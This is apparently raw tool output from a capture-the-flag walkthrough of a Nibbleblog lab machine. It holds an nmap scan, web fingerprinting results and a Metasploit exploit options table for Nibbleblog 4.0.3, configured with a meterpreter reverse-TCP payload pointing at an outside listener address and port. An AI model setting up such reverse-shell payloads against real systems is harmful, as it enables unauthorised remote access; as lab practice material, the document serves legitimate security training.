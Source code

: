# Nmap 7.92 scan initiated Sun Apr 10 18:04:05 2022 as: nmap -oG - 10.129.122.75
Host: 10.129.122.75 ()  Status: Up
Host: 10.129.122.75 ()  Ports: 22/open/tcp//ssh///, 80/open/tcp//http///       Ignored State: closed (998)
# Nmap done at Sun Apr 10 18:04:21 2022 -- 1 IP address (1 host up) scanned in 15.74 seconds


http://10.129.122.75/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.122.75], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]




   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  178.128.174.74   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3

